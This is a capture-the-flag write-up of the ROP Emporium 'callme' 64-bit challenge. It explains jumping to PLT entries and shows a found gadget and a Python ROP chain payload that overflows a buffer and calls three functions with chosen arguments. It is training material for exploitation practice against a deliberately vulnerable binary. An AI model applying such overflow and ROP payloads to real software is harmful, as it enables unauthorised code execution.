 # callme-64 bit

and so we begin the third challange of ROP Emporium.   
we are presented with an important message.  
![start](https://user-images.githubusercontent.com/60041914/78276174-58a50d00-751b-11ea-8c5d-b72c9eeff5f9.png)

and so we read them.(https://ropemporium.com/challenge/callme.html)  
"You must call callme_one(), callme_two() and callme_three() in that order, each with the arguments 1,2,3 e.g."    
    
ok. calling the functions will not suffice this time.  
the return address will be pushed on to the stack and our ROP chain will be ruined.  
    
what we can do instead is jump to the PLT.
(if you are not already farmiliar with the PLT you should read Appendix A in https://ropemporium.com/guide.html)  
![calls](https://user-images.githubusercontent.com/60041914/78276181-59d63a00-751b-11ea-8a8b-93292e80e4ee.png)
  
 we need to find gadgets that allow us to control rdi,rsi and rdx to change the parameters.   
    
 running ROPgadget we get:   
 ```nasm
 0x0000000000401ab0 : pop rdi ; pop rsi ; pop rdx ; ret
 ```
 we can write a ROP chain based on that.   
 ```python
 SET_PARAMS=0x00401ab0

CALLME_ONE=0x00401850
CALLME_TWO=0x00401870
CALLME_THREE=0x00401810

exploit=b'A'*40
exploit+=p64(SET_PARAMS)
exploit+=p64(0x1) # rdi
exploit+=p64(0x2) # rsi
exploit+=p64(0x3) # rdx
exploit+=p64(CALLME_ONE)
exploit+=p64(SET_PARAMS)
exploit+=p64(0x1) # rdi
exploit+=p64(0x2) # rsi
exploit+=p64(0x3) # rdx
exploit+=p64(CALLME_TWO)
exploit+=p64(SET_PARAMS)
exploit+=p64(0x1) # rdi
exploit+=p64(0x2) # rsi
exploit+=p64(0x3) # rdx
exploit+=p64(CALLME_THREE)
 ```
   
   
![pwned](https://user-images.githubusercontent.com/60041914/78276186-5b076700-751b-11ea-9daf-527c00681303.png)
